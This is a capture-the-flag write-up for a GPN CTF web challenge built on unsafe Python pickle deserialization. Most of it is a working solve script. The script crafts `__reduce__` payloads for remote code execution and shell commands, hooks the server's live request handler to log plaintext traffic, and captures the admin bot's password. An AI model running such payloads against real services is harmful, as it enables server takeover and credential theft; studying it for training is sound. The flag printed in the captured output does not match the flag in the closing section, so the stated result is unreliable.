

### Source analysis

Reading the challenge source, the application receives a payload via the URL, then decodes it with a function like:

```python
payload = secretpickle_load(data)
```

Here `secretpickle_load()` actually uses `pickle.loads()` after base64-decoding and XOR-ing the data.

The problem is that `pickle.loads()` is unsafe with user-controlled data. If the attacker can craft an object with `__reduce__()`, the unpickling process can call an arbitrary function and lead to RCE.

The challenge tries to hide the pickle by:

1. Removing a fixed prefix of the pickle object.
2. XOR-ing the rest with a fixed key.
3. Base64-encoding the data.

But since the prefix and XOR key are both in the source, we can craft a valid payload ourselves.

The values needed:

```python
# default prefix that every pickled dict has; we don't need to send it every time
SECRETPICKLE_OBJECT_PREFIX = bytes.fromhex("8004 950000000000000000 7d 94 28")

# 128 random bits, so same security as AES-128
SECRETPICKLE_XOR_KEY = bytes.fromhex("77c07f8fd2ae7ad9f5aabc008c79d0d3")
```

### Exploitation idea

1. Use pickle RCE to hook the main request-handling function on the server.
2. Each time the server receives an unpickled payload, log that plaintext payload to `/tmp/cap`.
3. Call the `adminbot` action to make the bot log in / whoami itself.
4. Read back `/tmp/cap` via RCE.
5. The log will contain a payload with the adminbot's username/password, where the password is the flag.

#### Solve script

```python
#!/usr/bin/env python3
import base64, pickle, json, urllib.request, subprocess

BASE = "https://torched-wagyu-stuffed-with-charred-dashi-u3kj.gpn24.ctf.kitctf.de"

PREFIX = bytes.fromhex("8004" "950000000000000000" "7d" "94" "28")
KEY = bytes.fromhex("77c07f8fd2ae7ad9f5aabc008c79d0d3")


def xor(d):
    return bytes(b ^ KEY[i % len(KEY)] for i, b in enumerate(d))


def sp_dump(obj):
    raw = pickle.dumps(obj)
    trimmed = raw[len(PREFIX):]
    return base64.b64encode(xor(trimmed)).decode()


def sp_load(enc):
    decoded = base64.b64decode(enc)
    raw = PREFIX + xor(decoded)
    return pickle.loads(raw)


def post(payload):
    enc = sp_dump(payload)
    req = urllib.request.Request(f"{BASE}/{enc}", method="POST")
    return sp_load(json.loads(urllib.request.urlopen(req, timeout=60).read()))


def rce_exec(code):
    class E:
        def __reduce__(self):
            return (exec, (code,))

    return post({
        "a": "hello",
        "params": {
            "name": E()
        }
    })


def rce_sh(cmd):
    class E:
        def __reduce__(self):
            return (
                subprocess.check_output,
                (["sh", "-c", cmd + " 2>&1; true"],)
            )

    return post({
        "a": "hello",
        "params": {
            "name": E()
        }
    })["result"][8:-2]


# 1. Hook live FastAPI handler and log plaintext payloads
rce_exec(r'''
import sys

for m in list(sys.modules.values()):
    if hasattr(m, "action_handler") and hasattr(m, "secretpickle_load"):
        old_handler = m.action_handler

        if getattr(old_handler, "_hooked", 0):
            continue

        async def patched_handler(action, params, pl, _old=old_handler):
            try:
                open("/tmp/cap", "a").write(repr(pl) + "\n")
            except Exception:
                pass
            return await _old(action, params, pl)

        patched_handler._hooked = 1
        m.action_handler = patched_handler
''')


# 2. Trigger adminbot
target = b"http://127.0.0.1:80/?a=whoami"
target_b64 = base64.b64encode(target).decode()

try:
    post({
        "a": "adminbot",
        "params": {
            "url": target_b64
        }
    })
except Exception:
    pass


# 3. Read captured payloads
print(rce_sh("cat /tmp/cap"))
```

Result:

```text
"{'a': 'hello', 'params': {'name': None}}\n{'a': 'adminbot', 'params': {'url': 'aHR0cDovLzEyNy4wLjAuMTo4MC8/YT13aG9hbWk='}}\n{'action': 'register', 'params': {'username': 'admin', 'password': 'GPNCTF{th3_PICKl3_wA5_s3cRE7_buT_nEv3r_53cuRe}'}}\n{'action': 'login', 'params': {'username': 'admin', 'password': 'GPNCTF{th3_PICKl3_wA5_s3cRE7_buT_nEv3r_53cuRe}'}}\n{'action': 'whoami', 'params': {}, 'username': 'admin', 'password': 'GPNCTF{th3_PICKl3_wA5_s3cRE7_buT_nEv3r_53cuRe}'}\n{'a': 'whoami', 'params': {}, 'username': 'admin', 'password': 'GPNCTF{th3_PICKl3_wA5_s3cRE7_buT_nEv3r_53cuRe}'}\n
```

### Flag

```text
GPNCTF{thE_PIckle_w4S_seCr37_8u7_n3Ver_53cuRe}
```
